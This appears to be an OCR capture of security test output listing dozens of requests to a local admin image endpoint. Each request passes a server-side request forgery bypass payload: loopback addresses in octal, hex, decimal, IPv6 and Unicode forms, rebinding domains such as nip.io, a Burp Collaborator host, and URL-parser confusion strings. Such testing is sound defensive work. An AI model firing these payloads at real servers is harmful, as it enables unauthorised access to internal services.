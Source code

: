 - Testing: `http://localhost:4200/api/admin/overseer_images?url=customer1.app.localhost.my.company.127.0.0.1.nip.io`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=mail.ebc.apple.com`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=127.0.0.1.nip.io`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=customer1.app.localhost.my.company.127.0.0.1.nip.io`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=bugbounty.dod.network`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=1ynrnhl.xip.io`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=spoofed.burpcollaborator.net`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=customer1.app.localhost.my.company.127.0.0.1.nip.io`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=spoofed.burpcollaborator.net`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=127.1.1.1%3A80%5C%40127.2.2.2%3A80%2F`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=127.1.1.1%3A80%5C%40%40127.2.2.2%3A80%2F`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=127.1.1.1%3A80%3A%5C%40%40127.2.2.2%3A80%2F`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=127.1.1.1%3A80%23%5C%40127.2.2.2%3A80%2F`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=127.0.1.3`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=0`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=127.1`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=127.0.1`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=localhost`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=1.0.0.127.in-addr.arpa`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=01111111000000000000000000000001`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=0x7f.0x0.0x0.0x1`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=0177.0.0.01`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=7F000001`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=2130706433`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=6425673729`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=127001`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=127_0._0_1`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=0000%3A%3A1`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=0000%3A%3A1%3A80`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=%3A%3Affff%3A7f00%3A0001`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=0000%3A0000%3A0000%3A0000%3A0000%3Affff%3A7f00%3A0001`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=localtest.me`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=bugbounty.dod.network`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=127.127.127.127`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=0177.0.0.1`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94%3A80`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%E2%93%95%E2%93%94%E2%93%90%E2%91%A8%E2%93%95%E2%93%94%3A80`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=%E2%91%A1%E2%91%A7%E2%91%A4%E2%91%A1%E2%93%AA%E2%91%A2%E2%91%A8%E2%91%A0%E2%91%A5%E2%91%A5%3A80`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%E3%80%82%E2%93%AA%E2%91%A2%E2%91%A6%E2%91%A5%E3%80%82%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%E3%80%82%E2%93%AA%E2%91%A2%E2%91%A6%E2%91%A5%3A80`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=whitelisted%40127.0.0.1`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=0x7f000001`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=017700000001`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=0177.00.00.01`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=0000.0000.0000.0000`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=0177.0000.0000.0001`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=0177.0001.0000..0001`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=0x7f.0x1.0x0.0x1`
- Testing: `http://localhost:4200/api/admin/overseer_images?url=0x7f.0x1.0x1`